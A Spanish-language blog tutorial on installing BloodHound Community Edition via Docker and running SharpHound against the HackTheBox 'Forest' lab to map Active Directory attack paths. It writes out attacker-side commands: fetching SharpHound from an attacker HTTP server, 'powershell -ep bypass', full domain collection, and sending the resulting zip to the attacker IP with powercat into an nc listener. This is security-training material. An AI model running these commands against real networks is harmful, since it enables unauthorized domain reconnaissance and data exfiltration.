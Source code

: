 
---
title: "Cómo Configurar BloodHound Community Edition"
summary: "Explicación rápida sobre cómo poner en funcionamiento BloodHound en unos minutos. Esta publicación incluye una guía de instalación paso a paso de **BloodHound**, así como la descarga de **SharpHound** y su carga en una máquina para mapear una red de Active Directory."
categories: ["Post","Blog",]
tags: ["tool"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** es una herramienta poderosa y ampliamente utilizada en el campo de la ciberseguridad, particularmente para los evaluadores de penetración en entornos corporativos. Está diseñada para mapear y analizar las estructuras de Active Directory, ayudando a identificar configuraciones de seguridad incorrectas y posibles rutas de ataque que un adversario podría explotar para escalar privilegios u obtener acceso a recursos confidenciales.

**BloodHound** opera mediante la recopilación y visualización de relaciones dentro de un dominio de AD. Estas relaciones incluyen membresías de grupos, permisos de usuario, relaciones de confianza y más. La fortaleza de la herramienta radica en su capacidad para descubrir cadenas complejas de privilegios que podrían ser invisibles para los administradores que auditan manualmente la seguridad de AD.

Realizaremos una instalación rápida paso a paso de la versión comunitaria de **BloodHound**, así como un pequeño tutorial paso a paso sobre cómo ejecutar **BloodHound** y **SharpHound** tomando como ejemplo la máquina [Forest](https://s3ntinl.github.io/pt-pt/posts/forest/) de HackTheBox. ¡Échale un vistazo si aún no lo has hecho a mi post!

¡Comencemos!

- - -
## Instalación
Primero, necesitamos instalar _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Luego, crea el grupo _docker_ si no existe:

```bash
kali@kali:~$ sudo groupadd docker
```

Añade tu usuario al grupo _docker_:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Ahora, instala **docker-compose** desde [github](https://github.com/docker/compose/). Además, recuerda otorgarle derechos de ejecución al binario y agregarlo al directorio `/usr/bin`.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Por último, necesitamos copiar el archivo `docker-compose.yml` de **BloodHound** para guardarlo localmente:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** estará disponible en el puerto 8080.
- - -
## SharpHound
**SharpHound** es el componente de recopilación de datos de BloodHound. Es una herramienta de C# diseñada para recopilar información de entornos de Active Directory, que luego BloodHound utiliza para mapear y analizar rutas de ataque. SharpHound recopila datos como sesiones de usuario, membresías de grupos, listas de control de acceso (ACL) y relaciones de confianza, lo que brinda a los evaluadores de penetración y analistas de seguridad una vista detallada del entorno.

Los datos recopilados se almacenan en archivos JSON, que luego se importan a BloodHound para visualización y análisis. Juntos, SharpHound y BloodHound son un dúo poderoso para identificar y comprender las debilidades de seguridad en los dominios de AD.

- - -
## Uso de BloodHound y SharpHound

Primero, iniciemos sesión en **BloodHound**. Ya lo tenemos en ejecución, por lo que debemos acceder a él en `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> La primera vez que accedamos a **BloodHound**, necesitaremos ingresar la contraseña generada aleatoriamente que se encuentra en la ventana de terminal donde se está ejecutando `docker-compose`. Luego, necesitaremos cambiarla. El usuario predeterminado es **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Ahora, en la pestaña _Descargar recopiladores_, podemos descargar la última versión de **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Aquí, selecciona **SharpHound**, ¡y estamos casi listos para comenzar a recopilar datos! Solo quedan unos pocos pasos más:

![bloodhound4](/img/bloodhound/bloodhound4.png)

A continuación, carga el ejecutable **SharpHound** en la máquina Windows cuyo Active Directory deseas mapear. Desde nuestra máquina atacante, servimos **SharpHound** desde un servidor _Python_:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina Windows, descargamos **SharpHound** con el siguiente comando:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

Después de transferirlo a la máquina Windows, podemos importarlo a PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Ahora, podemos ejecutar el script para recopilar toda la información del dominio. **SharpHound** se basa principalmente en consultas `LDAP` para recopilar datos de Active Directory. Dado que las consultas LDAP son una parte estándar de la comunicación de dominio, cualquier usuario autenticado en el dominio puede ejecutarlas, por lo que SharpHound no requiere privilegios administrativos para la mayoría de sus operaciones.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

Después de la ejecución, veremos un archivo **zip** con toda la información. Eso es lo que necesitamos transferir de vuelta a nuestra máquina atacante. El archivo .bin que **BloodHound** genera es un archivo binario que se utiliza como caché para datos preprocesados. Cuando importa archivos JSON recopilados por SharpHound en BloodHound, procesa los datos y los almacena en una base de datos Neo4j.

El archivo `.bin` sirve como caché local de estos datos procesados ​​para mejorar el rendimiento, pero no necesariamente necesitamos transferirlos de vuelta a nuestra máquina, por lo que lo ignoraremos.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

Podemos usar nuestro método de transferencia favorito, yo usaré `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

En nuestra máquina atacante, necesitamos abrir un receptor `netcat` para recibir los datos:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip
listening on [any] 4444 ...
connect to [10.10.14.18] de (DESCONOCIDO) [10.10.10.161] 50906
```

Una vez que tengamos el archivo zip en nuestra máquina, vamos a subirlo a **BloodHound**. Primero, presione la opción _Administración_.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Importe el archivo zip en la opción _Ingesta de archivos_, en la sección _Recopilación de datos_:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Haga clic y seleccione el archivo _zip_:

![bloodhound5](/img/bloodhound/bloodhound5.png)

¡Genial! Se subió con éxito.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Enseñar cómo hacer consultas con **BloodHound** no está dentro del alcance de esta publicación, pero ejecutemos una consulta rápida "_Shortest Paths to Domain Admins_" para verificar si la ingesta de datos fue exitosa.
![bloodhound7](/img/bloodhound/bloodhound7.png)

¡Funciona! Ahora tiene una instancia de **BloodHound** completamente funcional y en funcionamiento, lista para mapear y analizar su entorno de Active Directory.

## Detener la instancia

Detener la instancia es tan fácil como presionar `Ctrl+C` en la ventana de terminal donde se está ejecutando `docker-compose`.

![bloodhound8](/img/bloodhound/bloodhound8.png)

Si desea configurarlo nuevamente, simplemente ejecute `docker-compose up` y estará listo.

Espero que esta guía te haya resultado útil para configurar todo sin problemas, ya que configurar un entorno de **BloodHound** puede ser complicado al principio. ¡Pruébalo!